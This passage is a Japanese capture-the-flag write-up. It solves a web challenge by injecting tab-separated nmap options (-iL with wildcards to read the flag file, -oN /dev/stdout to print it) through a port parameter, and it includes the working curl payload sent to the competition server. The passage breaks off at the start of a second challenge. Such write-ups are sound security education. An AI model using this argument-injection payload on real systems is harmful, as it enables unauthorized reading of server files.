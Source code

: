 正規表現でオクテットを見ているので、ipは正しい形式じゃないとダメそう。  
Rubyでは、input.to_iは先頭から数値部分のみを返すため、portは以下のような値でも通る。

```text
1337abcABC
```

後は、`nmap -p #{port} #{hostname}`のportにコマンドインジェクションするだけ。  
なのだが、使えそうなのは`=,/.!%09:+?%^[]~–`ここら辺のみ。（%09はタブ）

nmapのオプションを調べると、`-iL`でローカルのファイルを読み込むことができる。

- <https://nmap.org/book/man-briefoptions.html>

また、フラグファイルは`/flag-<32桁のランダム文字列>.txt`であるが、不明な文字は「?」を使うことで回避できる。（どこかのCTFでやってたのでこの挙動は知ってた。）
ローカルで実行すると、標準エラー出力ではあるが、ファイルの中身を出力することができる。

```bash
$ nmap -p 1337 -iL /flag-????????????????????????????????.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2023-08-29 13:11 UTC
Failed to resolve "SEKAI{7357_fl46}".
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.10 seconds
```

後は、標準エラー出力の内容を標準出力に出せれば解ける。
（競技中はここまでで手詰まり。）  
nmapのオプションには、`-oN`があり、`/dev/stdout`を使うことで標準出力に全て出力することができるらしい。

```bash
$ nmap -p 1337 -iL /flag-????????????????????????????????.txt -oN /dev/stdout 2>/dev/null
Starting Nmap 7.92 ( https://nmap.org ) at 2023-08-29 13:22 UTC
# Nmap 7.92 scan initiated Tue Aug 29 13:22:08 2023 as: nmap -p 1337 -iL /flag-2e025061da544fe4e70bae0d6658a0f4.txt -oN /dev/stdout
Failed to resolve "SEKAI{7357_fl46}".
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.02 seconds
# Nmap done at Tue Aug 29 13:22:08 2023 -- 0 IP addresses (0 hosts up) scanned in 0.02 seconds
```

- 解法

```bash
$ curl -X POST --data-binary 'service=127.0.0.1:1337%09-iL%09/flag-????????????????????????????????.txt%09-oN%09/dev/stdout' http://35.231.135.130:31759/ -s | grep SEKAI{
Failed to resolve "SEKAI{4r6um3n7_1nj3c710n_70_rc3!!}".
```

- 余談

`if`が使えれば、`if  [ 1 ];  then  echo  CONDITION;  fi`のも使えるかなと思ったが使えなかった。
`!!`のようにコマンドの実行履歴を使えないかと思ったが、そもそも複数コマンド実行できないとダメな気がする。

## web/Frog-WAF

29 solves / 413 points

JavaのSpring Frameworkが使われている。  
また、リクエストパラメータに対して、パターンマッチングのWAFで判定をしている。
